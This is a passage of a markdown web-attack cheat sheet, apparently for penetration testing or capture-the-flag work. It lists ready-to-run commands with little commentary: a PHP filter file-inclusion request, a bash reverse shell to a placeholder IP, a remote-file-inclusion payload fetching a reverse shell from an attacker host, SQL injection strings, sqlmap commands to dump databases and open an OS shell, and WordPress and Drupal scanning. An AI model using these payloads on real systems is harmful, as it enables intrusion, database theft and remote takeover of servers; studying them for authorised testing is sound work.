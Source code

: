 ```bash
curl http://target.com/index.php?page=php://filter/convert.base64-encode/resource=index.php  
```

#### **LFI to Reverse Shell**

```bash
bash -c "bash -i >& /dev/tcp/<IP>/4444 0>&1"  
```

* * *

### Remote File Inclusion (RFI)

1. **Obtain a PHP reverse shell**
2. **Host a file server**
3. **Inject RFI payload**

```bash
http://target.com/index.php?page=http://attacker-ip/reverse-shell.php  
```

* * *

### SQL Injection

#### **Basic SQL Injection Payloads**

```sql
admin' OR '1'='1' --
" OR "1"="1" --
```

#### **SQLMap - Automated SQL Injection**

```bash
sqlmap -u "http://target.com/index.php?id=1" --dbs  
sqlmap -u "http://target.com/index.php?id=1" -p id --dump  
```

#### **SQLMap OS Shell**

```bash
sqlmap -u "http://target.com/index.php" --os-shell  
```

* * *

### WordPress Attacks

```bash
wpscan --url "target" --enumerate vp,u,vt,tt  
```

### Drupal Attacks

```bash
droopescan scan drupal -u http://target  
```
